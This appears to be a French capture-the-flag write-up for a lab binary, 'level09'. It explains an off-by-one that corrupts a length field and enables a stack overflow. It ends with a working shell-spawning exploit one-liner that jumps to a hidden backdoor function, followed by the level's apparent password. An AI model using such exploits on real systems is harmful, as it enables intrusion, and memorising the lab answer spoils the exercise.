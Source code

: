 # LEVEL09

## **Code**

L’exécutable `level09` ne prend pas d'arguments. Il lis sur `stdin` a deux reprises, pour demander une première fois
un **username**, puis un **message**.

Une fonction est présente mais jamais appelée: `secret_backdoor()`, qui fait un call a `system()`, avec son paramètre. 

La fonction `main()` fait simplement un appel a une fonction `handle_msg()`, qui elle même fait appel aux
fonction `set_username()` et `set_msg()`,après s’être alloué 192 octets sur la stack.

Ces deux fonctions prennent un paramètre, qui sera une structure.

> Pour comprendre que nous avions affaire a une structure, on a remarque que la fonction `set_username`  écrivait le contenu `stdin` dans son paramètre, mais avec un décalage de 140 octets. Aussi, dans `handle_msg()`, on peut constater qu'une partie du buffer alloue est set a 140.


```c
struct buffer {
    char message[140];
    char username[40];
    int message_len;
};
```

Les deux fonction, `set_username()` et `set_msg()`, font strictement la même choses: elle lisent grâce a `fgets()` sur `stdin`, puis écrivent les données lues dans la structure.
Cependant, elles le font différemment. `set_username()` utilise une boucle et écrit octet par octet ce qui est lu, alors que `set_msg()` fait un simple appel a `strncpy()`, avec comme paramètre de taille le `message_len` de la structure.
___
## **Faille**

On a dit que `set_username()` écrivait ce que `fgets()` avait lu bytes par bytes, dans `buffer.username`.
La condition d’arrêt de la boule est que l’itérateur `i` soit plus petit que 41, hors, `username` a une taille de 40. Si l'on rentre 41 octets ici,on va aller écrire sur le premier octet qui suit dans la structure: `message_len`.

On a dit que `set_msg()` écrivait  ce que `fgets()` avait lu via un  appel a `strncpy()`, avec `message_len` comme taille.

En faisant un overflow d'un octet sur `username`, on va pouvoir écrire jusqu’à 256 octets dans `message`, alors ce dernier ne fait que 140.
___
## **Solution**

A partir d'ici, on retrouve un buffer overflow classique, on va override le save de l'EIP dans `handle_msg()`, avec l'adresse de `secret_backdoor()`.
On retrouve le format suivant pour notre exploit:

```
[ 40 * A ][ 0xFF ][ \n ][ 200 * A ][ &secret_backdoor ][ "/bin/sh" ]
```

On rempli le buffer `username`, et on dépasse sur `message_len` avec un octet, que l'on va mettre le plus gros possible, ici `0xff`. 
Maintenant, on peut écrire jusqu’à 256 octets dans `message`. On sait que la structure fait 192. En faisant un dump de la stack a cet endroit, on remarque que le save de l'EIP se trouve 8 octets plus loin. On va donc remplir le buffer avec 200 "A", puis réécrire le save avec l'adresse de `secret_backdoor()`, avec `"/bin/sh"` en paramètre.

```bash
cat <(python -c 'print( "A" * 40 + "\xff" )'  ;   python -c 'print("A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "/bin/sh")') - | ./level09
```

>> j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
